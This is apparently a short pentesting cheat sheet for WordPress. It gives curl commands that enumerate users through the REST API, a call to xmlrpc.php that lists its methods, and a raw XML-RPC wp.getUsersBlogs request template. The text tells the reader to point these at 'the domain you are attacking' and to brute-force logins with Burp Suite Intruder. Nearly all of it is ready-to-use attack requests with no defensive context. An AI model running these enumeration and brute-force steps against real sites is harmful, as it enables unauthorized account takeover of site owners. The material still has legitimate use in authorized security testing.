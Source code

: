 # Pentesting Wordpress

## Rest API User Enumeration

    curl -k https://$DOMAIN/wp-json/wp/v2/users
    curl -k https://$DOMAIN/wp-json/akismet/v1
    curl -k https://$DOMAIN/wp-json
    curl -k https://$DOMAIN/wp-json/wp/v2/pages

## Brute Force Login

### List all methods
    
    DOMAIN="example.com"
    USERAGENT="Mozilla/5.0 (X11; CrOS x86_64 14816.131.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36"
    curl -L \
    -k \
    -A $USERAGENT \
    -X POST \
    -d '<methodCall> <methodName>system.listMethods</methodName> <params></params> </methodCall>' \
    https://$DOMAIN/xmlrpc.php
    
    
### POST Request
This is used for the brute force login.  Replace $DOMAIN with the domain you are attacking. Use Burp Suite Intruder to attack.

```
POST //xmlrpc.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Encoding: gzip,deflate
Content-Length: 264
Host: $DOMAIN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Connection: Keep-alive
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall> <methodName>wp.getUsersBlogs</methodName>
<params> <param><value><string>admin</string></value></param>
<param><value><string>894437894437534447</string></value> </param>
</params>
</methodCall>
```
